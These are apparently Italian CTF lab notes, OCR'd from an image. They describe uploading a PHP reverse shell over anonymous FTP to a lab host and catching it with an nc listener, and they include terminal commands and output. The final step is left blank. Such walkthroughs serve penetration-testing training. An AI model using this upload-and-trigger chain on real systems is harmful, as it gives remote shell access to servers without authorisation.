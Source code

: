 1) accedere alla directory: /usr/share/webshells/php/php-reverse-shell.php 
2) Apri il file cambia ip address e salva il file nella directory /home/kali/
3) apri  nel terminale un listener: 
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234             
listening on [any] 1234 ...

4) Entrare nella connessione ftp, e caricare la reverse shell:
ftp> put php-reverse-shell1.php 
local: php-reverse-shell1.php remote: php-reverse-shell1.php
229 Entering Extended Passive Mode (|||20262|)
553 Could not create file.

5) Poi entrare nella directory ftp: 
ftp> ls
229 Entering Extended Passive Mode (|||35304|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.

6) Ricaricare il file: 
ftp> put php-reverse-shell1.php 
local: php-reverse-shell1.php remote: php-reverse-shell1.php
229 Entering Extended Passive Mode (|||9640|)
150 Ok to send data.
100% |***********************************************************************|  5493       13.82 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (50.70 KiB/s)

7) Entare su firefox e mettere questo URL: http://10.10.63.53/files/ftp/
8) Apri il file che hai caricato e il listener farà il resto 
9) 




